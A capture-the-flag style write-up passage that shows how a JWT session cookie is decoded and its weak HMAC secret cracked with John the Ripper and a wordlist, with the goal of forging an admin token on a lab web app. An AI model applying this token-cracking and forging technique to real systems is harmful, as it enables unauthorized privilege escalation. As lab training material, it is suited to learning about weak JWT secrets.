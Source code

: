 The goal is now to login as the admin user.

We got another resource: a wordlist...

## Exploit

Once logged in as `KevinM`, we cannot see the admin panel. But we can see that the `/admin` page exists.

By looking at the cookies, we can see a cookie named `token` with the value:
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IktldmluTSIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNzQyNzQwNzQzLCJleHAiOjE3NDI3NDQzNDN9.Uj-d0Kxz1x8cBRqh1MSZb2886CyG0I1NoYmVJZRFOS8
```

It's format looks like a JWT token (`eyJ[...].[eyJ[...].[...]`) so let's try to decode it.

We can use [jwt.io](https://jwt.io/) to decode it, giving:

- header:
```
{
  "alg": "HS256",
  "typ": "JWT"
}
```
- payload:
```
{
  "username": "KevinM",
  "role": "user",
  "iat": 1742740743,
  "exp": 1742744343
}
```

Trying to modify the payload to change the role to `admin` and the username to `admin` will not work, we need to sign the token with the same HMAC secret as the server.

But we can try to find the secret using JohnTheRipper, giving it the token and the wordlist.

```bash
┌──(kali㉿kali)-[~]
└─$ john jwt.john --wordlist=Desktop/secrets.txt
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
secret123456     (?)     
1g 0:00:00:00 DONE (2025-03-23 10:41) 33.33g/s 33400p/s 33400c/s 33400C/s youJustCantCrackThis..mommy
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

We got the secret: `secret123456`.
